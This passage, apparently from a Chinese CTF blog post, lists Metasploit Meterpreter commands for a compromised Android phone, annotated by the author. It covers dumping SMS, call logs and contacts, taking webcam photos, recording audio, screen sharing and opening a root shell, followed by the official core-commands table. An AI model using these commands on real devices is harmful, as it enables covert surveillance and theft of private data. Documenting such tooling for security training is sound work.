 ![](https://gamernotitle.coding.net/p/assets/d/assets/git/raw/master/img/CTF-in-College-5/KOsQYAQc.jpeg)

## MSF session 命令列表

我自己常用的命令

```
app_list	# 列出所有的app，可以配合app_run使用
app_run <Package>	# 运行一个APP（会在目标设备直接运行，就类似用着用着突然打开了软件）
webcam_list	# 列出设备拥有的摄像头
webcam_snap -i <id>	# 通过指定摄像头拍照并保存（需要摄像头权限）
upload <src1> <src2> ... <dst> 	# 上传本地文件到指定位置
app_install <path>	# 通过指定路径安装apk
check_root	# 检查设备是否已经root
shell		# 返回一个shell会话，如果目标已经root，可以用su提权
dump_calllog	# 储存设备的通话记录（需要读取通话记录权限）
dump_sms		# 储存设备的短信（需要读取短信权限）
dump_contacts	# 储存设备的联系人列表（需要读取通讯录权限）
screenshare	# 实时观看设备的屏幕
screenshot	# 屏幕截图（出了寄生的软件后就截不到了）
record_mic	# 录音
portfwd		# 开放端口
download <path>	# 下载目标机器上的文件
ls		# 经典命令，显示当前目录下的文件（需要存储权限）
```

官方全命令

```
Core Commands
=============

    Command                   Description
    -------                   -----------
    ?                         Help menu
    background                Backgrounds the current session
    bg                        Alias for background
    bgkill                    Kills a background meterpreter script
    bglist                    Lists running background scripts
    bgrun                     Executes a meterpreter script as a background thread
    channel                   Displays information or control active channels
    close                     Closes a channel
    detach                    Detach the meterpreter session (for http/https)
    disable_unicode_encoding  Disables encoding of unicode strings
    enable_unicode_encoding   Enables encoding of unicode strings
    exit                      Terminate the meterpreter session
    get_timeouts              Get the current session timeout values
    guid                      Get the session GUID
    help                      Help menu
    info                      Displays information about a Post module
    irb                       Open an interactive Ruby shell on the current session
    load                      Load one or more meterpreter extensions
    machine_id                Get the MSF ID of the machine attached to the session
    pry                       Open the Pry debugger on the current session
    quit                      Terminate the meterpreter session
    read                      Reads data from a channel
    resource                  Run the commands stored in a file
    run                       Executes a meterpreter script or Post module
    secure                    (Re)Negotiate TLV packet encryption on the session
    sessions                  Quickly switch to another session
    set_timeouts              Set the current session timeout values
    sleep                     Force Meterpreter to go quiet, then re-establish session
    transport                 Manage the transport mechanisms
    use                       Deprecated alias for "load"
    uuid                      Get the UUID for the current session
```